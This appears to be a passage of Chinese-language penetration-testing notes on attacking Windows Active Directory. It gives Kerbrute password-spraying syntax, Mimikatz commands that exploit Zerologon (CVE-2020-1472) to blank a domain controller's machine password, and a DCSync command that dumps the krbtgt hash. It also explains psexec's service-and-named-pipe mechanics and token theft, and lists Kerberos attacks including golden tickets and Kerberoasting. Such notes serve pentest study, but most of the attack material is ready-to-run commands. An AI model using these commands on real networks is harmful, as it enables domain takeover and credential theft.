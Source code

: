 #### 密码喷洒

获得存在可用的用户名后。

Kerbrute

```Bash
passwordspray --dc ip -d domain_name user.txt pass.txt
```

# 提权

#### CVE-2020-1472 Zerologon **Mimikatz** **提权**

Nslookup -type=SRV _ldap._tcp 命令获取域控制服务器的机器账号，一般为机器名加上 $。

```Bash
lsadump::zerologon /target:192.168.0.111 /account:win-3o8g1o8vv2e$         # 探测
```

攻击，利用置零修改域控密码为空，机器用户是不可以登录系统，但有 Dcsync 权限。

```Bash
lsadump::zerologon /target:192.168.0.111 /account:win-3o8g1o8vv2e$ /exploit
```

Dcsync 攻击，密码为空。

```Bash
lsadump::dcsync /dc:win-3o8g1o8vv2e.rd.com /authuser:win-3o8g1o8vv2e$ /authdomain:rd.com /authpassword:"" /domain:rd.com /authntlm /user:krbtgt
```

 

 

# psexec 原理分析和实现

- 连接 SMB 共享【Windows 的 api，WNetAddConnection 】
- 上传一个恶意服务文件到共享目录【CIFS 将网络文件映射为本地文件，然后用 Windows 的 api 操作本地文件，拷贝到远程】
- 打开 SCM（服务控制管理器） 创建服务【是操作系统的一个组成部分，它的作用是与服务进行通信】
- 启动服务
  1. 服务创建输入输出管道【PsExec 创建了三个命名管道 stdin、stdout、stderr 用于攻击者和远程主机之间通信】
  2. 等待攻击者连接管道
  3. 从管道读取攻击者的命令
  4. 输出执行结果到管道【命名管道可以通过模拟客户端来窃取 token 从而将 administrator 提升至 system，msf 中的 getsystem 原理就是这个】
  5. 跳转到 3
- 删除服务和文件

# 内网KDC服务器开放在哪个端口，针对kerbores的攻击有哪些?

88，464

1. 用户名爆破
2. 密码喷洒和密码爆破
3. Kerberoasting
4. ASRepRoasting
5. 黄金票据和白银票据
6. MS14-068
7. 非约束委派、约束委派、基于资源的约束委派
8. 票据传递（ptt/ptk/ptc）
9. mimikatz加密降级攻击(万能钥匙)
10. 使用恶意的kerberos证书做权限维持
